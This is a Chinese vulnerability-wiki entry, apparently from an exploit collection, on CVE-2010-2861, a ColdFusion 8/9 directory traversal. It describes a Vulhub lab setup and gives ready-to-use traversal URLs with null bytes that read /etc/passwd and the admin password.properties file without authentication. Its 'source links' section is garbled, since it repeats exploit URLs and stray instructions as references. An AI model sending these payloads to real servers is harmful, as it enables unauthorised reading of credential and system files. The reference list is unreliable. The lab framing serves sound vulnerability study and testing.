


# Adobe ColdFusion 文件读取漏洞 CVE-2010-2861

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Adobe ColdFusion locale参数
- 文献类型：ColdFusion文件读取简记
- 版本、权限及部署边界：CF8/9，样例8.0.1，未认证读取，初始化admin仅部署；应用进程文件权限/平台路径相关
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. version字段误填docker-compose up -d，确认元数据抽取错误，应填真实产品版本
2. 桌面目录错误，应ColdFusionWeb中间件；产品CouldFusion拼写修正
3. Vulhub命令未给实验路径/compose来源和镜像版本，缺官方公告/修复版本及原研究
4. password.properties读取获得的可能是哈希/配置值非明文口令，需准确区分
5. 示例路径Linux/null字节处理依版本，截图未视检，不能泛化所有平台任意文件权限

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境>
- 原文参考链接（未重新核验）：<http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`>
- 原文参考链接（未重新核验）：<http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

Vulhub执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`



读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`




---

> 来源：Threekiii/Awesome-POC
